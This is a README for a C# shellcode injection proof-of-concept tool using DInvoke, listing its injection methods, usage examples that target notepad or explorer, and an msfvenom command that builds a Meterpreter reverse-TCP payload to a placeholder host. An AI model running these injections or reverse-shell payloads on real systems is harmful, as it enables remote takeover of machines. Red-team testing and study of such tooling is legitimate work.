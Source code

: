 # CS-Dinvoke-ShellcodeInjection
DInvoke version Shellcode Injection POC in C#

Classic Injection, Dynamic API injection, Manual Mapping, Overload Mapping and Syscalls

Please note that no Anti-virus or EDR bypass has been implemented. 

	Usage: shellcodeinjection.exe <method> <Process Name> -f <rawfile path>

	Method: -c: classic -d: dynamicinvoke -m: manualmap -o: overload -s: syscalls


	Example 1: shellcodeinjection.exe -s notepad -f beacon.bin
	Example 2: shellcodeinjection.exe -d notepad -f 'C:\temp\beacon.bin'

	Example 3: shellcodeinjection.exe
	Default inject process: explorer
	Default inject payload: beacon.bin


For the rawfile, can generate with msfvenom to test:

	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -o beacon.bin -f raw

Reference: https://github.com/crypt0ace/CS-ShellcodeInjection
